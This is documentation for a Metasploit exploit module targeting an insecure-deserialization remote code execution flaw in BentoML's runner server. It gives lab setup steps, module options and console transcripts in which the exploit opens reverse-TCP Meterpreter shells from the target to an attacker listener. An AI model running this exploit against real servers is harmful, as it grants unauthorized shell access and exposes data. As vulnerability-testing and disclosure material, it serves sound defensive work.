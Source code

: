## Vulnerable Application

There was an insecure deserialization in BentoML's runner server.
By setting specific headers and parameters in the POST request, it is possible to execute any unauthorized arbitrary code on the server,
which will grant the attackers to have the initial access and information disclosure on the server.

The vulnerability affects:

    * 1.0.0a1 <= BentoML < 1.4.8

This module was successfully tested on:

    * BentoML 1.3.5 installed on Ubuntu 20.04


### Installation

1. `pip install -U bentoml==1.3.5`

2. Create a file named model.py to create a simple model and save it:
```python3
import bentoml
import numpy as np

class mymodel:
    def predict(self, info):
        return np.abs(info)
    def __call__(self, info):
        return self.predict(info)

model = mymodel()
bentoml.picklable_model.save_model("mymodel", model)
```

3. Run the following command to save this model: `python3 model.py`

4. Create bentofile.yaml to build this model:
```yml
service: "service.py"  
description: "A model serving service with BentoML"  
python:
  packages:
    - bentoml
    - numpy
models:
  - tag: MyModel:latest  
include:
  - "*.py"
```

5. Create service.py to host this model:
```python3
import bentoml
from bentoml.io import NumpyNdarray
import numpy as np


model_runner = bentoml.picklable_model.get("mymodel:latest").to_runner()

svc = bentoml.Service("myservice", runners=[model_runner])

async def predict(input_data: np.ndarray):

    input_columns = np.split(input_data, input_data.shape[1], axis=1)
    result_generator = model_runner.async_run(input_columns, is_stream=True)
    async for result in result_generator:
        yield result
```

6. Run the following commands to build and host this model:
```bash
bentoml build
bentoml start-runner-server --runner-name mymodel --working-dir . --host 0.0.0.0
```


## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/bentoml_runner_server_rce_cve_2025_32375`
4. Do: `run lhost=<lhost> rhost=<rhost>`
5. You should get a meterpreter


## Options


## Scenarios

### Python payload
```
msf > use exploit/linux/http/bentoml_runner_server_rce_cve_2025_32375
[*] Using configured payload python/meterpreter/reverse_tcp
msf exploit(linux/http/bentoml_runner_server_rce_cve_2025_32375) > options

Module options (exploit/linux/http/bentoml_runner_server_rce_cve_2025_32375):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    3000             yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (python/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Python payload



View the full module info with the info, or info -d command.

msf exploit(linux/http/bentoml_runner_server_rce_cve_2025_32375) > set target Python\ payload
target => Python payload
msf exploit(linux/http/bentoml_runner_server_rce_cve_2025_32375) > run lhost=192.168.56.1 rhost=192.168.56.15
[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated. BentoML's runner server detected.
[*] Sending stage (24772 bytes) to 192.168.56.15
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.15:47712) at 2025-04-17 20:29:12 +0900

meterpreter > getuid
Server username: ubu
meterpreter > sysinfo
Computer        : vul
OS              : Linux 5.4.0-212-generic #232-Ubuntu SMP Sat Mar 15 15:34:35 UTC 2025
Architecture    : x64
System Language : en_US
Meterpreter     : python/linux
meterpreter > 
```

### Linux command
```
msf exploit(linux/http/bentoml_runner_server_rce_cve_2025_32375) > set target Linux\ Command
target => Linux Command
msf exploit(linux/http/bentoml_runner_server_rce_cve_2025_32375) > run lhost=192.168.56.1 rhost=192.168.56.15
[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated. BentoML's runner server detected.
[*] Meterpreter session 2 opened (192.168.56.1:4444 -> 192.168.56.15:43432) at 2025-04-17 20:29:48 +0900

meterpreter > getuid
Server username: ubu
meterpreter > sysinfo
Computer     : 192.168.56.15
OS           : Ubuntu 20.04 (Linux 5.4.0-212-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```
